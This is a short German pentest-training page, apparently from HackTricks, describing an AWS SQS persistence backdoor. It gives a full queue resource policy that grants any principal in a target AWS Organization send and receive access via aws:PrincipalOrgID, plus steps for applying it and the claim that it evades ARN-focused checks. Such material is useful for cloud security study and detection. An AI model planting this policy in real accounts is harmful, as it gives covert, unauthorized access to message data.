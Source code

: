 # AWS - SQS OrgID Policy Backdoor

{{#include ../../../../banners/hacktricks-training.md}}

Missbrauche eine SQS queue resource policy, um stillschweigend Send, Receive und ChangeMessageVisibility an jeden Principal zu gewähren, der zu einer Ziel-AWS Organization gehört, indem du die Condition aws:PrincipalOrgID verwendest. Dies schafft einen org-scoped versteckten Pfad, der häufig Kontrollen umgeht, die nur nach expliziten account- oder role-ARNs oder star principals suchen.

### Backdoor policy (an die SQS queue policy anhängen)
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "OrgScopedBackdoor",
"Effect": "Allow",
"Principal": "*",
"Action": [
"sqs:ReceiveMessage",
"sqs:SendMessage",
"sqs:ChangeMessageVisibility",
"sqs:GetQueueAttributes"
],
"Resource": "arn:aws:sqs:REGION:ACCOUNT_ID:QUEUE_NAME",
"Condition": {
"StringEquals": { "aws:PrincipalOrgID": "o-xxxxxxxxxx" }
}
}
]
}
```
### Schritte
- Beschaffe die Organization ID mit der AWS Organizations API.
- Ermittle die SQS-Queue-ARN und setze die Queue-Policy, einschließlich des oben genannten Statement.
- Von jedem Principal, der zu dieser Organization gehört, sende und empfange eine Nachricht in der Queue, um den Zugriff zu validieren.

### Auswirkung
- Organisationsweiter versteckter Zugriff, um SQS-Nachrichten von jedem Account in der angegebenen AWS Organization zu lesen und zu schreiben.

{{#include ../../../../banners/hacktricks-training.md}}
